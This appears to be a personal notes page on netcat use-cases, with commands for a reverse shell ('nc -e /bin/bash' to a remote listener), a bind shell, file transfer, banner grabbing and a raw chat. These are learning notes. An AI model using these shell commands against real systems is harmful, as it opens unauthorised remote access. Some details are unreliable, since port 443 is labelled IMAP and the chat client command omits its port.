 ```yaml
---
layout: post
title: 'Netcat'
category: 'notes'
permalink: 'notes/netcat'
---
```


## Table of Contents
* [Reverse shell](#reverse-shell)
* [Bind shell](#bind-shell)
* [File transfer](#file-transfer)
* [Banner grabbing](#banner-grabbing)
* [Raw chat](#raw-chat)

Netcat can read & write TCP/UDP ports. Here are a few different use-cases for it.

## Reverse Shell
A Reverse Shell involves opening a port locally and then, getting a remote node to send you a shell. As a metaphor, imagine Bob has a mailbox (the port). Since he is interested in what is going on elsewhere, he gets Alice to give him a subscription to the city newspaper (a shell) where she lives. Instead of driving downtown and directly probing for information, Bob simply waits for the newspaper to show up.

By the way, for those who have not caught on yet (took me a while) the character of Alice is used to denote “point A” while Bob is used as “point B.” Therefore, one can infer a direction by following the normal convention of “point A to point B.”

In the following example, Bob has the IP address of `192.168.5.2`.
```bash
nc -lnvp 8888			# Bob; the mailbox
```
```bash
nc -nv -e /bin/bash 192.168.5.2 # Alice; the newspaper
```
```bash
[ Intranet | Extranet ]
        Firewall
	   |
	   |
     {     |x----}	# Bob can't get a Bind Shell (inbound rules)
Alice{	   | 	 }Bob
     {~~~~~|~~~~>}	# So he uses a Reverse Shell (no proxy/outbound rules)  
     	   |     
	   |	  
```

## Bind Shell
```bash
nc -lnvp 8888 -e /bin/bash # binds a shell to port 8888
```
```bash
nc -nv 192.168.5.1 8888	   # accesses port/shell on the remote node
```

## File Transfer
Open a port, direct everything a file. Redirect file to recently opened port.
```bash
nc -lnvp 8888 > incoming.exe 	       		# do on system needing file
```
```bash
nc -nv 192.168.5.1 8888 < /path/to/file.exe 	# do on system with file
```

## Banner Grabbing
Banner grabbing is a technique used to collect service version information from a remote node. For example, each command sentence below provokes verbose output from a target.
```bash
nc -nv 192.168.5.2 25  # SMTP
nc -nv 192.168.5.2 110 # POP3
nc -nv 192.168.5.2 443 # IMAP
```

## Raw Chat
Output will be the same on both ends of the socket.
```bash
nc -lnvp 8888	   # server; his IP address = 192.168.5.1
nc -nv 192.168.5.1 # client; connects to server
```

